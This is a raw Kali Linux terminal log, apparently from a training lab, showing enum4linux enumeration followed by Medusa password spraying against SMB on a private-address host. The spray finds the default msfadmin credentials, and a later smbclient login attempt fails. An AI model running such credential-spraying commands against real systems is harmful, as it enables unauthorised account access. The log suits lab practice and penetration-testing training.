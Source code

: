  =================================( Getting printer info for 10.0.2.5 )=================================
                                                                                                                       
No printers returned.                                                                                                  


enum4linux complete on Sun Oct 26 11:46:05 2025

                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ less enum4_output.txt 
"enum4_output.txt" may be a binary file.  See it anyway? 
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ less enum4_output.txt
"enum4_output.txt" may be a binary file.  See it anyway? 
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ echo -e "user\nmsfadmin\nservice" > smb_users.txt
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ echo -e "password\np123456\nWelcome123\nmsfadmin" > senhas_spray.txt
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: password (1 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: p123456 (2 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: Welcome123 (3 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 3, 1 complete) Password: msfadmin (4 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: password (1 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: Welcome123 (2 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: p123456 (3 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 3, 2 complete) Password: msfadmin (4 of 4 complete)
2025-10-26 11:57:17 ACCOUNT FOUND: [smbnt] Host: 10.0.2.5 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: password (1 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: p123456 (2 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: Welcome123 (3 of 4 complete)
2025-10-26 11:57:17 ACCOUNT CHECK: [smbnt] Host: 10.0.2.5 (1 of 1, 0 complete) User: service (3 of 3, 4 complete) Password: msfadmin (4 of 4 complete)
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.0.2.5 -U msfadmin
Password for [WORKGROUP\msfadmin]:
session setup failed: NT_STATUS_LOGON_FAILURE
                                                                                                                       